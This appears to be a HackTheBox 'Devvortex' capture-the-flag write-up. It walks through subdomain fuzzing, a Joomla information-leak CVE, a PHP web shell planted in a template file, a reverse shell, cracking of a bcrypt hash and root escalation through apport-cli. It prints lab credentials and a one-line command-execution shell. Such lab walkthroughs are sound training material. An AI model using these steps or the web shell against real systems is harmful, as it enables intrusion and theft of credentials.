



## Reconnaissance

### nmap 


### Web Service 


### Gobuster Result 

> Tool: gobuster 
> wordlist: /dirb/common.txt


> wordlists: /dirb/common.txt
> Filter : html, php, pdf, txt


### Wfuzz result 

```
wfuzz -c -f sub-fighter -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u 'http://devvortex.htb' -H "HOST: FUZZ.devvortex.htb" -hc 302
```


### Gobuster for dev.devvortex.htb

> wordlists: /dirb/common.txt


### Web service 

> Login page ( /administrator)
> Information: Joomla 


> Following the gubuster result 
> /robots.txt


> Following the path in robots.txt
> /api


> /bin & /installation & /logs will be error page 


> /cache & /cli & the other path will be blank page


### Research for joomla 

- [(HackTricks)](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)

>  I can check the version in this path 
> /administrator/manifests/files/joomla.xml
> The version is 4.2.6


### Exploit code for joomla 4.2.6 


> It shows the CVE-2023-23752

```
CVE-2023-23752 is an authentication bypass resulting in an information leak on Joomla! Servers. Although rated as a CVSSv3 5.3 (Medium severity) by NVD, this vulnerability could allow an attacker to achieve code execution under the right circumstances. That likely justifies the interest attackers have shown in this vulnerability.
```

> Here are some exploit code 

- [(GITHUB)CVE-2023-23752](https://github.com/ThatNotEasy/CVE-2023-23752)



## Exploit 

> Execute the exploit code 
> I got the Username and Password

```
lewis / P4ntherg0t1n5r3c0n##
```


> After Login 


### RCE 

> After login to the joomla dashboard 
> I checked hacktricks again
> there is  a rce vulnerability in templates configure page



> So I also check the template configuration page


> Follow the content of HackTricks
> I can modify the content of error.php 


- Example 1 : RCE 

```
system($_GET['cmd');
```


- Example 2 : reverse shell php 


> Executing the shell by accessing 

```
dev.devvortex.htb/templates/cassiopeia/error.php
```

> With reverse shell php, I got the reverse shell 


> Check current user - www-data



> With the credential I found previously
> I can login to mysql 

```
mysql -u lewis -h localhost -D joomla -p
```


> Check user table, find credential for logan

```
logan@devvortex.htb / $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12
```


### Hashcat crack 

> Research hash type from google
> It seems  bcrypt 


> Using hashcat to identified the hash type 


> Using hashcat to crack hash


```
logan / tequieromucho
```

### SSH login 


> User flag 


## Privilege Escalation 

> Check sudo permission


> Research privilege escalation for apport-cli 
> I found CVE-2023-1326


> and I found this article 

- [(CVE-2023–1326)Privilege Escalation apport-cli 2.26.0](https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/)

 

> Follow this article, I can use the following command in the last step

```
!/bin/bash
```


> And I can get root permission


> Get root flag


## Reference 

- [(HackTricks) Joomla](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla)
- [WFuzz Usage](https://wfuzz.readthedocs.io/en/latest/user/basicusage.html)
- [(Discussion)Devvortex](https://forum.hackthebox.com/t/official-devvortex-discussion/303920/79)
### CVE-2023-23752

- [Joomla! CVE-2023-23752 to Code Execution](https://vulncheck.com/blog/joomla-for-rce)
- [(ExploitDB)Joomla! v4.2.8 - Unauthenticated information disclosure](https://www.exploit-db.com/exploits/51334)
	- The exploit code in Exploit DB is ruby based, it will failed by require library load error
	- I haven't find the solution for it.

### CVE-2023-1326

- [(GITHUB)CVE-2023-1326-PoC](https://github.com/diego-tella/CVE-2023-1326-PoC)
- [(CVE-2023–1326)Privilege Escalation apport-cli 2.26.0](https://vk9-sec.com/cve-2023-1326privilege-escalation-apport-cli-2-26-0/)
- [CVE-2023–1326 POC](https://diegojoelcondoriquispe.medium.com/cve-2023-1326-poc-c8f2a59d0e00)

###### tags: `HackTheBox`